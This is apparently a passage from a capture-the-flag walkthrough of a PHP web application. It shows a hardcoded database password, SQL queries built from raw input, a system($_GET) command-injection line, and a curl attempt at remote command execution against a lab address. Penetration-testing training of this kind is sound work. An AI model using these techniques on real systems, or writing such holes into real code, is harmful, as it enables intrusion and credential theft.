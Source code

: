 ```
[ main ✓ ] ❯ ls
about.php  control.php  home.php  index.php  login.php  logout.php
```

A quick `grep` search for some passwords reveal a possible `sql` password of `sqluserrootpassw0r4`.

```
[ main ✓ ] ❯ grep -i passw *
about.php:      $password = "sqluserrootpassw0r4";
about.php:      $conn = mysqli_connect($servername, $username, $password, $database);
control.php:    $password = "sqluserrootpassw0r4";
control.php:    $conn = mysqli_connect($servername, $username, $password, $database);
home.php:       $password = "sqluserrootpassw0r4";
home.php:       $conn = mysqli_connect($servername, $username, $password, $database);
index.php:input[type=text], input[type=password] {
index.php:input[type=text]:focus, input[type=password]:focus {
index.php:    <label for="psw"><b>Password</b></label>
index.php:    <input type="password" placeholder="Enter Password" name="upass" required>
index.php:$password = "sqluserrootpassw0r4";
index.php:$conn = mysqli_connect($servername, $username, $password, $database);
index.php:      $sql = "insert into details (name,password) values('$us','$pa')";
login.php:input[type=text], input[type=password] {
login.php:    <label for="psw"><b>Password</b></label>
login.php:    <input type="password" placeholder="Enter Password" name="upass" required>
login.php:$password = "sqluserrootpassw0r4";
login.php:$conn = mysqli_connect($servername, $username, $password, $database);
login.php:      $sql = "select name from details where name='$us' and password='$pa'";
```

Further manual enumeration of `control.php` reveals a very interesting line.

```
system($_GET['cmdcntr']); //system() function is not safe to use , dont' forget to remove it in production .
```

We might be able to execute an `RCE` on the website!

```
[ main ✓ ] ❯ curl http://192.168.0.83/control.php?cmdcntr=id -b PHPSESSID=8dcclmcf7jn9bhm78cgmpb1gcc | html2text
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
100   690  100   690    0     0   336k      0 --:--:-- --:--:-- --:--:--  336k
    * Home
    * Control
    * About
    * Logout
HTTP Parameter Pollution or HPP in short is a vulnerability that occurs
due to passing of multiple parameters having same name
```

However, our initial attempts are not successful. From here, we can take another look at `history.php` and see if we might have an `sqli` vulnerability.
